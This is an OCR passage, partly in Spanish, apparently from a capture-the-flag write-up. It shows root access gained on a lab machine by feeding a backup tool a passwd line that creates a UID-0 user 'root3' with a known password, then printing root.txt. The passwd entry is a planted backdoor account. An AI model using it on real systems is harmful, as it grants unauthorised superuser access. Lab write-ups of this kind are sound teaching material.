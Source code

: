 Enter a l i n e of text to back up : root3 :nU/fHmh15MLsY : 0 : 0 : root :/ root :/ bin /bash

Enter a f i l e to append the text to (must be i n s i d e the / srv /backups directory ) :

lo que crea el superusuario root3 con la contraseñamrcake. Finalmente, el

directorio /root puede ser visualizado

[ root@archlinux ~]# l s

root . txt

5



<a name="br6"></a> 

[ root@archlinux ~]# cat root . txt

}63 a9f0ea7bb98050796b649e85481845

6


